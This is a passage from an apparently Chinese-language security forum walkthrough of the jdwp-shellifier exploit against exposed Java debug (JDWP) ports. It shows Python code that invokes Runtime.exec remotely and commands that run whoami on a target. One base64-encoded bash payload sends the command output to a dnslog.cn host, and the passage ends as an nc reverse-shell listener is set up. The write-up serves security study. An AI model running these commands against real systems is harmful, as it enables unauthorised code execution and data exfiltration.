 ```python
# 3. find exec() method
execMeth = jdwp.get_method_by_name("exec")
if execMeth is None:
    print ("[-] Cannot find method Runtime.exec()")
    return False
print ("[+] found Runtime.exec(): id=%x" % execMeth["methodId"])
```

接下来看第四部分代码，调用了invoke方法

```python
# 4. call exec() in this context with the alloc-ed string
data = [ chr(TAG_OBJECT) + jdwp.format(jdwp.objectIDSize, cmdObjId) ]
buf = jdwp.invoke(rt, threadId, runtimeClassId, execMeth["methodId"], *data)
if buf[0] != chr(TAG_OBJECT):
    print ("[-] Unexpected returned type: expecting Object")
    return False

retId = jdwp.unformat(jdwp.objectIDSize, buf[1:1+jdwp.objectIDSize])
print ("[+] Runtime.exec() successful, retId=%x" % retId)
```

在invoke方法中会向目标JVM发送`(ObjectReference, InvokeMethod)`命令调用指定对象的实例方法。这里用于调用Runtime对象的exec方法执行我们的命令，这里调用方法需要传入Runtime对象ID、threadID、Runtime类的refTypeId、exec方法的methodId，以及将前面创建的命令字符串对象ID作为参数传入，如果命令执行成功就会返回一个Process对象ID

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-854f4200e0545e8b7398329e568bcc4bf78f12b2.png)

至此脚本利用过程就分析完了，下面来利用脚本执行命令

#### 脚本利用

执行系统命令

```shell
python2 jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on "java.lang.String.indexOf" --cmd "whoami"
```

运行脚本显示命令执行成功，但是没有回显

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-2e255baf5af2272d9e0bf52eabd616e17471a954.png)

通过DnsLog平台查看命令执行的回显结果，注意执行的命令同样需要编码处理

```shell
python2 jdwp-shellifier.py -t 192.168.182.130 -p 8000 --break-on "java.lang.String.indexOf" --cmd "bash -c {echo,cGluZyBgd2hvYW1pYC56YjN6OHEuZG5zbG9nLmNu}|{base64,-d}|{bash,-i}"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-8e1114d932c97067b44d3951bc960095a9b0c469.png)

反弹Shell

本地NC监听：

```shell
nc -lvp 6666
```
